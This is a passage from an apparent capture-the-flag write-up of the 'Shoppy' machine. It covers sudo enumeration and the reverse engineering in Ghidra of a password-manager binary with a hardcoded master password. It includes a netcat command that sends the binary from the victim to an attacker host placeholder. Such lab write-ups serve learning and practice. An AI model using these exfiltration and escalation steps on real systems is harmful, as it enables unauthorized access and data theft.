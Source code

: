 ## Privilege Escalation

### System Enumeration

```shell
sudo -l
```

![sudoL.png](/assets/img/Shoppy/sudoL.png)

We can see that `jeager` can run script `/home/deploy/password-manager` as user deploy with `sudo` privileges. Running this binary I got prompted for master password to enter Josh password manager. Since none of the known password are valid I decided to transfer binary to my local machine for reverse engineering.

```shell
sudo -u deploy /home/deploy/password-manager
```

![passwordManagerBinry.png](/assets/img/Shoppy/passwordManagerBinry.png)

#### File Transfer

Transferring binary to kali machine.

On kali:
```shell
nc -nlvp 9989 > password-manager
```

On victim:
```shell
nc -w 3 <<KALI_IP>> 9989 < password-manager
```

#### Ghidra

Analyzing binary in `ghidra` we can see that variable `local_48` is our input and it is compared to variable `local_68` which is created by appending characters that make up string `Sample`.
